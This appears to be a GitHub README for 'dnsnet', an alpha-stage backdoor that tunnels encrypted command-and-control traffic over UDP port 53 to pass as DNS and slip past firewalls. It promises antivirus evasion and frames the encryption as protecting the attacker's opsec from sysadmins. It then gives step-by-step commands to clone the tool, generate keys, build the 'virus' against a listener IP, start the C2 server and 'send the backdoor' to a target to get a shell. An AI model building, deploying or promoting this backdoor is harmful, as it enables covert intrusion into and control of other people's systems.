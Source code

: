# dnsnet


# Current Version: Alpha

# Logo:
![box](https://user-images.githubusercontent.com/72181445/155982020-2db1333f-74b7-4c3f-8178-f14a75a0a65d.png)

# Description:
DNSNET Is a backdoor that uses encrypted "dns" to communicate with the command & control server.


DNSNET Uses udp port 53 to make itself look like dns traffic, this means that firewalls can't block this port (without losing dns rsolving) and i will be adding av evasion.

# "But why encrypted?" Answer:
If someone notices your actions, the sysadmin or whatever can't see what you were trying to do so your opsec will not be compromised

<img src=https://user-images.githubusercontent.com/72181445/155986263-d911e874-5ce2-4d99-a5d3-0c44ae65f9bc.png width=500 heigth=500></img>


# Update log:
Alpha: 10 times encryption and stabile server end

# In dev?: YES, This is the only project im working on currently

# How to use (REPLACE "Listener ip" with the c2 ip):
git clone https://github.com/R00tendo/dnsnet

cd dnsnet

apt install unrar

unrar e cryptography.rar

pip3 install termcolor

python3 key_generator.py 5 > keys

python3 virus_generator.py <Listener ip>

python3 server.py

and send the backdoor directory and get your shell
  
# Technical Details:
Encryption: Fernet 32bit encryption (that times the keys)
 
